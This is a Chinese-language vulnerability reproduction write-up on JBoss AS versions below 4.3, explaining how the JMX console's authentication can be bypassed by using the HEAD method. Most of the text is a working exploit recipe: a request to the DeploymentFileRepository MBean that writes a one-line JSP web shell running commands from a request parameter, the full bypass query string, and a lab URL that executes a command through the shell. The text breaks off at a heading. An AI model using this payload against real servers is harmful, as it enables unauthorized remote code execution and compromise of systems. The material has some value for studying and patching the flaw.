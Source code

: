 ##### 漏洞描述

JBoss默认仅对“GET”和“POST”方法启用安全限制。

使用“HEAD”等其他HTTP方法发出请求，可以绕过身份验证，直接调用jmx-console实现的任何功能。

注意：如果JMX控制台回复HTTP 500错误，则表示请求已正确处理。

##### 影响范围

JBossAS < 4.3

##### 漏洞原理

JBoss默认仅对“GET”和“POST”方法启用安全限制；使用“HEAD”等其他HTTP方法发出请求，可以绕过身份验证

```shell
jboss-4.2.3.GA/server/default/deploy/jmx-console.war/WEB-INF/web.xml
```

![image-20200701103827156](/images/Jboss/image-20200701103827156.png)

##### 漏洞检测

1、URL请求

```shell
http://172.16.144.139:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.admin:service=DeploymentFileRepository
```

![image-20200701142719465](/images/Jboss/image-20200701142719465.png)

2、参数对应值

```shell
# 路径
shell.war
# 文件名
shell
# 文件后缀
.jsp
# 文件内容
<%Runtime.getRuntime().exec(request.getParameter("i"));%>

# 如POST提交需认证，修改请求方法未HEAD并复制POST数据至URL处
action=invokeOp&name=jboss.admin:service=DeploymentFileRepository&methodIndex=6&arg0=../jmx-console.war/&arg1=shell&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True
# 访问(获取当前目录文件夹及文件)
http://172.16.144.139:8080/jmx-console/shell.jsp?i=touch%201.txt
```

![image-20200701153249170](/images/Jboss/image-20200701153249170.png)

![image-20200701152708158](/images/Jboss/image-20200701152708158.png)

3、shell新建文件
